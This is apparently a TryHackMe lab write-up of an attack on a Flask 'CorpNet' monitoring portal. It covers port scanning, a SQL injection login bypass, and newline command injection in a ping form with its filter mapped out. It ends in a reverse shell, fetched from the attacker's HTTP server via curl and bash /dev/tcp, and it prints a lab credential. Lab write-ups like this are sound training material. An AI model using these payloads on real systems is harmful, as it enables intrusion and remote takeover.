

# Green Lights, Dark Corners

CorpNet's internal network operations centre has been running quietly for years. Monitoring hosts, logging events, and keeping the infrastructure alive. Or so it seems. A tip from a disgruntled contractor suggests that someone on the NOC team has been cutting corners, leaving doors open, and hiding things in places no one thinks to look.

The portal is up. The services show green. The audit log looks clean.

But clean logs can be written by anyone.

Your job is to get in, move through the system, and find out what is really running behind the secret dashboard.

## Target Questions

1. What is the content of user.txt?
2. What is the content of root.txt?

## Scope and Environment

- Attacker machine: `10.48.78.175`
- Target machine: `10.48.161.183`
- Authorized TryHackMe lab target, accessed via THM VPN/AttackBox.

## Reconnaissance

Passive/pre-active-testing observations, from the room brief only (no target interaction yet):

- Room brief frames the target as a NOC monitoring portal with a web dashboard, an "audit log," and a hinted "secret dashboard" — see [Scope and Environment](#scope-and-environment) and the brief at the top of this document.
- No OSINT/DNS was applicable — target is an internal lab IP, not a public hostname.

## Scanning and Enumeration

### Port Scanning

Full TCP port sweep (all 65535 ports):

```bash
nmap -p- --min-rate 2000 -T4 -oN allports.txt 10.48.161.183
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2026-11-03 13:37 UTC
Nmap scan report for ip-10-48-161-183.ap-south-1.compute.internal (10.48.161.183)
Host is up (0.0066s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5050/tcp open  mmcc

Nmap done: 1 IP address (1 host up) scanned in 3.45 seconds
```

Service/version scan against the two open ports:

```bash
nmap -sC -sV -p 22,5050 -oN services.txt 10.48.161.183
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2026-11-03 13:39 UTC
Nmap scan report for ip-10-48-161-183.ap-south-1.compute.internal (10.48.161.183)
Host is up (0.00032s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0e91254f833581854c427cea67b29071 (ECDSA)
|_  256 4a8556b31abbb5285cde98309e0a747c (ED25519)
5050/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.10.12)
|_http-server-header: Werkzeug/2.0.2 Python/3.10.12
|_http-title: CorpNet \xE2\x80\x94 Network Operations Centre
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.22 seconds
```

**Findings so far:**

- Only two TCP ports open on the full 65535-port sweep: 22 (SSH) and 5050 (HTTP). Everything else closed/reset — host is directly reachable, not obviously firewalled.
- Port 22: OpenSSH 8.9p1 on Ubuntu. No evidence yet connecting this to any vulnerability or credential; kept in mind for later, not pursued without evidence.
- Port 5050: Werkzeug 2.0.2 / Python 3.10.12 — confirms the "portal" is a **Flask application**, likely running via the Flask/Werkzeug development server rather than a production WSGI server. Page title: "CorpNet — Network Operations Centre".

### Web Application — Main Page

Accessed `http://10.48.161.183:5050` directly in the browser:



Confirms the page is the "CorpNet — Network Operations Centre" portal: a stats bar (14 monitored hosts, 3 open alerts, 99.4% uptime, 4 network segments) and three feature cards — Uptime Monitoring, Incident Alerting, Operator Audit Trail. No login form or navigation links visible on the page itself. Footer shows "NOC Portal v2.4.1".

**Source review of the main page** (`curl -i http://10.48.161.183:5050`, saved to `sources/main-page.html`):

- Static landing page only — hero section, stats bar, three feature cards ("Uptime Monitoring", "Incident Alerting", "Operator Audit Trail").
- No `<script src>`, no `<form>`, no visible `<a href>` navigation links to other pages.
- Footer shows version string "NOC Portal v2.4.1" — noted in case it becomes relevant later.
- The "Operator Audit Trail" card text echoes the room brief's "clean logs can be written by anyone" line — a thematic hint, not yet technical evidence.

**Reasoning:** since the HTML has no links to other routes, the app's other endpoints (if any) must be discovered via directory/content discovery rather than by following links. This matches the brief's "hiding things in places no one thinks to look" and "secret dashboard" cues.

**Next step (planned):** content discovery against the Flask app on port 5050 (e.g. `gobuster dir`) to find hidden routes such as a login page, admin panel, or dashboard — not yet executed.

**Dead end / corrected reasoning:** considered pivoting to "anonymous SSH login" based solely on port 22 being open. Rejected — no evidence (no leaked credentials, no banner anomaly, no indication of `NoneAuth`) supports this, and SSH does not have a true "anonymous" auth mode by default. Logged as a reminder to avoid guessing ahead of evidence.

```bash
gobuster dir -u http://10.48.161.183:5050 -w /usr/share/wordlists/dirb/common.txt -x php,html -t 40 -o gobuster.txt
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.48.161.183:5050
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
2026/11/03 13:52:11 Starting gobuster in directory enumeration mode
===============================================================
/internal             (Status: 200) [Size: 8770]
Progress: 13718 / 13845 (99.08%)===============================================================
2026/11/03 13:52:39 Finished
===============================================================

```

```bash
└─# curl -i http://10.48.161.183:5050/internal
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 8770
Server: Werkzeug/2.0.2 Python/3.10.12
Date: Tue, 03 Nov 2026 13:55:53 GMT

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>CorpNet NOC — Sign In</title>
</head>
<body>

<header class="topbar">
  <div class="brand">
    <div class="brand-mark">
      <svg viewBox="0 0 16 16"><path d="M2 2h5v5H2zM9 2h5v5H9zM2 9h5v5H2zM11 9h2v2h2v2h-2v2h-2v-2H9v-2h2z"/></svg>
    </div>
    <div class="brand-name">CorpNet <span>Network Operations Centre</span></div>
  </div>
  <div class="topbar-right">
    <div class="status-pill"><span class="dot"></span><span>SYSTEMS NOMINAL</span></div>
  </div>
</header>

<div class="page-body">
  <div class="login-wrap">
    <div class="login-eyebrow">Operator Access</div>
    <h1 class="login-title"><strong>Sign In</strong> to NOC Portal</h1>
    <p class="login-sub">Restricted to authorised personnel. All sessions are monitored and logged.</p>

    <div class="card">
      <div class="card-stripe"></div>
      <div class="card-body">


        <form method="POST" action="/internal" autocomplete="off">
          <div class="field">
            <label for="username">Username</label>
            <div class="input-wrap">
              <input type="text" id="username" name="username"
                     placeholder="operator id" autofocus
                     autocomplete="off" spellcheck="false">
              <svg viewBox="0 0 16 16"><path d="M8 8a3 3 0 100-6 3 3 0 000 6zm-5 5a5 5 0 0110 0H3z"/></svg>
            </div>
          </div>
          <div class="field">
            <label for="password">Password</label>
            <div class="input-wrap">
              <input type="password" id="password" name="password"
                     placeholder="••••••••••••"
                     autocomplete="current-password">
              <svg viewBox="0 0 16 16"><path d="M11 6V5a3 3 0 00-6 0v1H3v8h10V6h-2zM7 5a1 1 0 012 0v1H7V5zm1 6a1 1 0 110-2 1 1 0 010 2z"/></svg>
            </div>
          </div>
          <button type="submit" class="btn-submit">
            <svg viewBox="0 0 16 16"><path d="M10 3h3v10h-3v-2H8v-1h2V6H8V5h2V3zM1 5h6v1H3v4h4v1H1V5z"/></svg>
            Authenticate
          </button>
        </form>

      </div>
      <div class="card-foot">
        <span class="foot-item">
          <svg viewBox="0 0 16 16"><path d="M8 1l6 3v4c0 3.5-2.5 6.5-6 7.5C2.5 14.5 0 11.5 0 8V4l8-3z"/></svg>
          Sec-Level: RESTRICTED
        </span>
        <span class="foot-item">
          <svg viewBox="0 0 16 16"><path d="M8 1a7 7 0 100 14A7 7 0 008 1zm.5 7.5v3h-1v-3h1zm0-4v2h-1V4.5h1z"/></svg>
          Session timeout: 30 min
        </span>
        <span class="foot-item">v2.4.1</span>
      </div>
    </div>
  </div>
</div>

<footer class="page-footer">
  CORPNET INFRASTRUCTURE &nbsp;|&nbsp; INTERNAL USE ONLY &nbsp;|&nbsp; UNAUTHORISED ACCESS IS PROHIBITED
</footer>

</body>
</html>
```

## Vulnerability Analysis

### Login Form Review (`/internal`)

Source review of `login.html` (`sources/login.html`):

- `<form method="POST" action="/internal" autocomplete="off">`, fields `username` and `password`, plain POST, no CSRF token field, no hidden inputs, no client-side JS validation.
- `autocomplete="off"` is browser-level only, not a security control.

**Hypotheses considered** (ranked by cost to validate):

1. Weak/guessable credentials — no evidence pointing at a specific credential; deprioritized.
2. SQL injection in the login query — cheap, non-destructive to probe with a single crafted input.
3. Brute-forceable with no rate limiting — expensive to validate, not pursued first.

**Testing hypothesis 2:**

```bash
curl -i -X POST http://10.48.161.183:5050/internal \
  -d "username=test&password=test"
```

Result: `Invalid username or password.` — generic error, no enumeration via message wording.

```bash
curl -i -X POST http://10.48.161.183:5050/internal \
  -d "username=test'&password=test"
```

Result: identical generic error (same status/body) — ruled out an unhandled/leaking SQL error, but did not rule out a caught/masked one.

```bash
curl -i -X POST http://10.48.161.183:5050/internal \
  -d "username=admin' OR '1'='1'-- -&password=x"
```

Result: **authentication bypass succeeded** — redirected into the dashboard, logged in as operator `netops`.

**Confirmed finding:** SQL injection in the login query, authentication bypass via boolean injection.

### Post-Authentication Enumeration

Dashboard at `/internal/dashboard` (`images/system-overview.png`):

- Logged in as `netops` (role `OPERATOR`).
- Nav sections: Overview, **Host Health**, **Audit Log**, **Services**.
- **Audit log directly reflects raw login input as the "operator" field** — rows show `' OR 1=1#` and `admin' --` verbatim as `OPERATOR` values. Confirms the brief's "clean logs can be written by anyone": the username field is logged unsanitized.
- `HEALTH_CHECK` detail column showed prior entries like `127.0.0.1%0awhoami` — a plausible OS command injection probe pattern, suggesting a "Host Health" feature worth testing. (Later shown to be a prior **failed** attempt, not proof of working injection — see below.)

### Host Health Probe — Command Injection

`/internal/health` (`images/host-health.png`): "ICMP reachability probe", free-text target field + Run Probe button. Usage notes claim "Accepts RFC-952 compliant hostnames and dotted-decimal IPv4 addresses" and that probes are logged.

Baseline probe, `127.0.0.1` (`images/run-probe-127.png`):

```
$ ping -c 2 -W 1 127.0.0.1
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.028 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.034 ms
--- 127.0.0.1 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1018ms
rtt min/avg/max/mdev = 0.028/0.031/0.034/0.003 ms
```

**The UI discloses the exact backend command template**: `ping -c 2 -W 1 <input>` — confirms direct, unvalidated string interpolation into a shell-executed command.

Test: field value `whoami` alone (`images/run-probe-whoami.png`) → `ping: whoami: Temporary failure in name resolution`. `whoami` was treated as a second argument/hostname to `ping`, not a separate command — confirms raw pass-through, but not yet injection.

**Diagnosing "newline injection" carefully — two false leads before success:**

1. Typed literal backslash-n (`\n` as two characters) into the field:

   ```
   ping -c 2 -W 1 127.0.0.1 \n whoami
   ping: whoami: Temporary failure in name resolution
   ```

   Confirmed this was literal text, not a real newline byte — a single-line HTML `<input>` cannot carry a raw newline from the keyboard.

2. Typed literal `%0a` text into the field:

   ```
   ping -c 2 -W 1 127.0.0.1%0awhoami
   ping: 127.0.0.1%0awhoami: Name or service not known
   ```

   The whole string `%0a` was passed through literally, un-decoded (the browser double-encodes the `%` on submit). **This also means the earlier audit-log entries showing this same pattern were most likely a previous operator's failed attempts, not confirmed prior exploitation** — important correction to initial assumption.

3. **Real newline byte, sent via `curl` (controlling raw bytes directly, bypassing the browser input's limitation):**
   ```bash
   curl -s http://10.48.161.183:5050/internal/health \
     --data-urlencode $'target=127.0.0.1\nwhoami' \
     -b "session=<netops session cookie>"
   ```
   Result:
   ```
   PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
   64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.026 ms
   64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.040 ms
   --- 127.0.0.1 ping statistics ---
   2 packets transmitted, 2 received, 0% packet loss, time 1037ms
   rtt min/avg/max/mdev = 0.026/0.033/0.040/0.007 ms
   www-data
   ```
   **Confirmed: OS command injection, executing as `www-data`.**

## Exploitation — Reverse Shell

Decided to use [Penelope](https://github.com/brightio/penelope) (as in the [Domino](../Domino/domino-writeup.md) room) instead of raw `netcat`, for automatic PTY upgrade.

```bash
penelope -p 4444          # listener
penelope -p 4444 -a       # prints ready-made payloads for the active listener
```

**First attempt — full Python3 reverse shell payload (base64, piped through `base64 -d|sh`) — failed:**

```
Invalid hostname or IP address.
```

**Isolating the input filter, one variable at a time (controlled tests, not guesses):**

| Test                             | Input                                                        | Result                                                                     |
| -------------------------------- | ------------------------------------------------------------ | -------------------------------------------------------------------------- |
| Space + hyphen                   | `127.0.0.1\nid -u`                                           | passed                                                                     |
| Pipe character                   | `127.0.0.1\necho a\|echo b`                                  | **blocked**                                                                |
| `>` redirection                  | `127.0.0.1\nid > /tmp/t`, then `cat /tmp/t`                  | passed — read back `uid=33(www-data) gid=33(www-data) groups=33(www-data)` |
| `=` (base64 padding)             | `127.0.0.1\necho aGVsbG8= > /tmp/h`, then `cat /tmp/h`       | passed                                                                     |
| `&` character                    | `127.0.0.1\necho hi & echo bye`                              | **blocked**                                                                |
| Multi-line (4 lines), safe chars | `127.0.0.1\necho l1 > /tmp/m\necho l2 >> /tmp/m\ncat /tmp/m` | passed — ruled out a short line-count limit                                |
| `+` character                    | `127.0.0.1\necho a+b > /tmp/q`, then `cat /tmp/q`            | passed                                                                     |

Also attempted a bash `/dev/tcp` reverse shell (`bash -i >& /dev/tcp/<ip>/4444 0>&1`) — failed, consistent with `&` being blocked (this technique structurally requires `&` for fd duplication, so no rephrasing fixes it).

**Pulled source code and config to understand the filter precisely**, via the same injection (`cat app.py`, `cat secret.config`, saved to `sources/`):

- `app.py`: `PING_BLOCK_RE = re.compile(r"[;|\`$&]")` — confirms `|`/`&` blocked (and `;`, `` ` ``, `$`, untested but avoided throughout). Also: `elif len(target) > 100: cmd_err = "Invalid hostname or IP address."` — **the real cause of the original full-payload failure was the 100-character total length cap**, not its characters.
- `app.py` also confirms the login SQLi: `query = "...WHERE username = '%s' AND password = '%s'" % (username, pw_hash)` — direct string interpolation.
- `secret.config`: leaked credential — `[backup_agent] run_as = sysadmin, password = S3cur3Backup$Acc3ss!`. Untested at time of writing; candidate for OS-level pivot (port 22 has been open since the first scan).
- `ls -la` on the app's directory also surfaced `netops.db` (SQLite, likely the operator credentials table) and a `templates/` directory.

```
total 44
drwxrwx--- 3 root     www-data  4096 Nov  3 13:18 .
drwxr-xr-x 3 root     root      4096 May 19 03:10 ..
-rw-r--r-- 1 root     root      7283 May 19 19:14 app.py
-rw-rw---- 1 www-data www-data 20480 Nov  3 13:18 netops.db
-rw-r----- 1 root     www-data   446 May 19 03:10 secret.config
drwxr-x--- 2 root     www-data  4096 May 19 03:10 templates
```

**Final working technique — host the payload externally, inject only a short fetch-and-execute command** (stays under the 100-char cap and never exposes the filtered `&`/`|` characters to the app's filter, since they live inside the fetched file, not the injected field):

```bash
# attacker machine
echo 'bash -i >& /dev/tcp/10.48.78.175/4444 0>&1' > shell.sh
python3 -m http.server 8000
```

```bash
curl -s http://10.48.161.183:5050/internal/health \
  --data-urlencode $'target=127.0.0.1\ncurl 10.48.78.175:8000/shell.sh -o /tmp/s\nbash /tmp/s' \
  -b "session=<netops session cookie>"
```

**Result: reverse shell caught on the Penelope listener (port 4444).** Interactive foothold established.

## Current Status

- Access: interactive shell via Penelope, identity not yet re-confirmed in the new session (expected `www-data`, matching the injection-based `id` checks).
- Untested lead: `sysadmin` / `S3cur3Backup$Acc3ss!` credential from `secret.config` — candidate for pivoting to a real OS user account (`su sysadmin` or SSH, port 22).
- Not yet done: locate `user.txt`, enumerate for privilege escalation to `root.txt`.

**Next phase:** Post-Exploitation — confirm current identity/shell, enumerate `/home`, test the leaked credential.
